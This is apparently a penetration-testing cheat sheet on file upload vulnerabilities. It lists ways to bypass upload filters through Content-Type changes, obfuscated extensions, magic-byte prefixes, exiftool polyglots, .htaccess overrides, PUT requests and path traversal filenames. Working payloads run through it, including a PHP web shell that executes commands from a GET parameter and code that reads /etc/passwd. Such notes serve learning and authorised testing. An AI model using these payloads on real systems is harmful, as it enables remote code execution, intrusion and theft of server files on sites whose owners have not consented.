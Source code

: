 # File upload

{% hint style="warning" %}
Servers typically won't execute files unless they have been configured to do so. In some cases the contents of the file may still be served as plain text
{% endhint %}

## <mark style="color:yellow;">Flawed validation of FU</mark>

### <mark style="color:yellow;">**Content-Type**</mark>

<details>

<summary>multipart/form-data</summary>

When we upload binary files (like png) the content type multipart/form-data is preferred. The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header and may also contain their own `Content-Type` header which tells the server the MIME type of the data that was submitted using this input

</details>

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### <mark style="color:yellow;">Blacklisted extensions</mark>

* Change extensions

```
.php
.php3
.php4
.php5
.phtml
.phar
```

* Obfuscating file extensions

```
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### <mark style="color:yellow;">File content validation</mark>

More secure servers try to verify that the contents of the file actually match what is expected

#### (1) Magic number: certain file types may always contain a specific sequence of bytes in their header or footer

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

Payload example:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

***

**(2) Polyglot (on exiftool)**: verify certain intrinsic properties of an image, such as its dimensions.

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass rescritions) but when you open the image it's executed as php script.

## <mark style="color:yellow;">Overriding server configuration</mark>

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers -> `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

## <mark style="color:yellow;">PUT method</mark>

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## <mark style="color:yellow;">**FU + PT**</mark>

One defense: prevent the server from executing scripts that slip through. Web servers use the filename field in `multipart/form-data` requests to determine the file's name and location. -> Change filename field combining path traversal

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

## <mark style="color:yellow;">FU without RCE</mark>

If you can upload HTML files or SVG images, you can use tags to create stored XSS payloads. If the server parses XML-based files like `.doc` or `.xls`, it could be a vector for XXE injection attacks.

## <mark style="color:yellow;">FU + Race Conditions</mark>

Some websites upload files to the main filesystem and remove them if they fail validation. This is common in sites using anti-virus software to check for malware. During the short time the file exists on the server, an attacker could potentially execute it.

* Race conditions
* Difficult to detect

### <mark style="color:yellow;">Race conditions in URL-based file uploads</mark>

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes
